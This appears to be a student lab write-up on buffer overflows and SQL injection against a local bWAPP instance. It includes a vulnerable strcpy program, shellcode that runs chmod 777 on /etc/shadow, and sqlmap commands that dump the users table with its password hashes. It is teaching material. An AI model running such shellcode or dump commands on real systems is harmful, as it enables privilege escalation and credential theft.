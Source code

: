 
<h1>Lab #1,22110035, Nguyen Gia Huy, Information Security_Nhom03FIE</h1>
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

1. Idea
`StackFrame` của chương trình 

``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:


***Step1***


First we login to the web with username: bee, password: bug


![image](https://github.com/user-attachments/assets/6f445219-db7b-42fe-ba05-df6fd2b57b07)


***Step2***
After that, we choose SQL Injection (get/select) option and click Hack button
![image](https://github.com/user-attachments/assets/68ba1787-ad5d-4cb2-bdb7-ea59a73df331)


***Step3***


We will be redirected to the page http://localhost:8025/sqli_2.php
We collect the cookie of the webpage
![image](https://github.com/user-attachments/assets/24420808-15de-4de0-9a18-28aef6a30bd4)
We can observe that the cookie = qsfi47oc645khe9eimnnr9kcm5; security_level=0


***Step4***


We will start using SQLMap to find the existing databases of the website.


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="qsfi47oc645khe9eimnnr9kcm5; security_level=0"


Explain the command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities. The --dbs option 
instructs SQLMap to enumerate and display the databases available on the target server. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result:


![image](https://github.com/user-attachments/assets/5e009099-2b49-494e-8524-0ef11f38168d)


We can see that there are 4 available database: bWAPP, information_schema, mysql, performance_schema

**Question 2**: Use sqlmap to get tables, users information


**Answer 2**:


***Step1***


To view user information, we need to know the information of the tables in each database


So I will try to see the table information in each database, starting with the first bWAPP database


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"


Explain command: This command executes SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, specifically targeting the database bWAPP. The -D bWAPP option specifies that SQLMap should focus on this particular database. The --tables option instructs SQLMap to enumerate and display the tables within the specified database. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result: 

![image](https://github.com/user-attachments/assets/15be522e-ed1f-4317-9156-281f87c6a74c)


We can observer that there are 5 table in the bWAPP database. 


***Step2***


Based on the table names, we can easily guess the user information stored in the users table in the bWAPP database


So we will read the contents of the Users table


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"


Explain command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, focusing specifically on the database bWAPP and the users table. The -D bWAPP option specifies the target database, while the -T users option indicates that SQLMap should operate on the users table. The --dump option instructs SQLMap to extract and display all the data from the specified table. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result:

![image](https://github.com/user-attachments/assets/29db088a-65c2-4383-9c18-cd040a2d820a)


Based on the image above, we can see the user information and hashed passwords

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

